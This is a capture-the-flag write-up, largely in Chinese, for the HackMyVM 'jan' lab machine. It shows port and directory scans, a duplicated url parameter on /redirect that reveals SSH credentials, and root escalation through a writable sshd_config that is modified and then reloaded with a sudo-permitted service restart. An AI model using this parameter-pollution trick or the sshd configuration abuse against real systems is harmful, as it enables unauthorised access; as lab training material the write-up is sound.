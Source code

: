 ```yaml
---
title: "HackMyVM-jan"
date: 2025-04-09
categories: 
  - "hackmyvm"
tags: 
  - "hackmyvm"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.56.144  -p-

PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

## Gobuster

```
[root@kali] /home/kali  
❯ gobuster dir -u http://192.168.56.144:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,txt --exclude-length 45
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.144:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          45
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/redirect             (Status: 400) [Size: 24]
/robots.txt           (Status: 200) [Size: 16]
Progress: 97322 / 882244 (11.03%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 100724 / 882244 (11.42%)
===============================================================
Finished
===============================================================
```

发现一个**/redirect**路由，并且需要**url**参数

![](./images/image-54.png)

```
http://192.168.56.144:8080/robots.txt

/redirect
/credz
```

尝试进行将**url**参数赋值为**/credz**

这里应该是存在一个参数覆盖的问题

```
http://192.168.56.144:8080/redirect?url=/credz&url=/credz

#得到凭证
ssh/EazyLOL
```

![](./images/image-55.png)

## Root

```
jan:/opt$ sudo -l
Matching Defaults entries for ssh on jan:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for ssh:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User ssh may run the following commands on jan:
    (root) NOPASSWD: /sbin/service sshd restart
```

发现配置文件是可以写入的

![](./images/image-56.png)

修改**/etc/ssh/sshd\_config**的**banner**

![](./images/image-57.png)

然后重启服务，尝试**ssh**登录**root**，可以读取

![](./images/image-58.png)

要获取到**Rootshell**的话，需要修改下面几个地方

![](./images/image-59.png)

其中**key**是从**kali**中的公钥中获取到的

![](./images/image-60.png)

## Summary

`User`：通过变量覆盖解析获取到**ssh**登录凭证。

`Root`：修改**ssh**配置文件中的默认密钥位置，获取到**root**
